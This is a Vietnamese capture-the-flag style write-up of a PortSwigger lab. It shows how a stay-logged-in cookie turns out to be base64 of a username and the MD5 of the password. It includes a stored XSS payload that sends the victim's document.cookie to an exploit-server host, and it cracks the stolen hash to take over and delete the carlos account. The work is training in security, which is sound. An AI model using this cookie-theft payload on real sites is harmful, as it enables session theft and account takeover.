







# Write-up: Offline password cracking

### Tổng quan
Khai thác lỗ hổng trong cookie stay-logged-in để lấy mật khẩu của tài khoản carlos thông qua giải mã hash, sử dụng XSS để đánh cắp cookie, sau đó đăng nhập và xóa tài khoản của anh ta.

### Mục tiêu
- Lấy cookie `stay-logged-in` của `carlos` và giải mã để tìm mật khẩu.
- Đăng nhập vào tài khoản `carlos` và xóa tài khoản từ trang "My account".


### Thông tin đăng nhập
- Tài khoản đăng nhập wiener peter
- Tài khoản nạn nhân carlos

### Công cụ sử dụng
- Burpsuite Community
- Firefox Browser
- Exploit Server:  Để lưu trữ payload XSS và lấy cookie của `carlos`.

### Quy trình khai thác
1. **Thu thập thông tin (Recon)**
- Đăng nhập vào tài khoản `wiener`:`peter`, chọn tùy chọn "Stay logged in".
    
- Kiểm tra cookie stay-logged-in, nhận giá trị: `d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw`
    
- Giải mã cookie: 
    - Decode base64: `d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw` → `wiener:51dc30ddc473d43a6011e9ebba6ca770`.
    - Phân tích: Chuỗi có dạng `username:hash`. Hash `51dc30ddc473d43a6011e9ebba6ca770` là MD5 của `peter`
    

- **Kết luận**: Cookie **stay-logged-in** chứa username và MD5 hash của mật khẩu, có thể giải mã nếu lấy được cookie của **carlos**.

2. **Khai thác XSS để lấy cookie**
- Kiểm tra chức năng comment trên trang, thử payload XSS:
    ```
    <script>hello</script>
    ```
    
    - Kết quả: Payload hoạt động, xác nhận có lỗ hổng XSS.

- Tạo payload XSS để đánh cắp cookie bằng chức năng comment:
    ```
    <script>document.location='https://exploit-0a3700cf048551d8802b0c6a01000063.exploit-server.net/exploit?cookie='+document.cookie</script>
    ```
    - Kiểm tra access log trên exploit server, lấy cookie `stay-logged-in` của `carlos`: `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`
        

- Giải mã cookie:
    - Decode base64: `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz` → `carlos:26323c16d5f4dabff3bb136f2460a943`.
    - Hash `26323c16d5f4dabff3bb136f2460a943` là MD5 của `onceuponatime`
    

3. **Khai thác (Exploitation)**
- Vào phần `/login` và đăng nhập `carlos`:`onceuponatime` và chọn delete account để hoàn thành lab
    

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng XSS để đánh cắp cookie chứa thông tin nhạy cảm.
- Nhận thức tầm quan trọng của việc mã hóa an toàn cookie session và bảo vệ chức năng comment khỏi XSS.

### Tài liệu tham khảo
- PortSwigger: Authentication vulnerabilities

### Kết luận
Lab này giúp tôi nắm rõ cách khai thác XSS để lấy cookie, giải mã hash mật khẩu, và xóa tài khoản nạn nhân. Kỹ năng này nhấn mạnh tầm quan trọng của việc bảo mật cookie và ngăn chặn XSS. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.